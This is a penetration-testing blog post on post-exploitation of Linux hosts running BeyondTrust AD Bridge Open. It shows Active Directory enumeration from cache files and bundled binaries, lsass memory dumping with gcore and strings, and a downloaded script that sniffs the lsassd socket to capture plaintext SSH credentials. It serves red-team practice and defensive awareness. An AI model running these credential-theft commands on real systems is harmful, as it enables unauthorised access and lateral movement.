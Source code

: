 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation.

It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).

This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using BeyondTrust AD Bridge Open.

Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551).

The project was discontinued and moved to an enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment - especially if the Linux box was streamlined and does not have installed any LDAP or SMB clients typicaly present on Linux distributions.

The software keeps a cache file of domain users and associated Active Directory information on this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`. A lot of information about Active Directory environment, without making any request to the Domain Controllers, can be extracted from this file.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they all reside on the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` is a SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm).




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

In order to get some plain text credentials the LSASS process can be targeted Mimikatz style, minus the memory structures parsing complexities of LSASS on Windows.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.


GDB can be attached using one of the AD Bridge Open binaries:
```bash
/opt/pbis/bin/lwsm gdb lsass
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run:
```bash
gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it is a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.

```bash
tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
```


Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

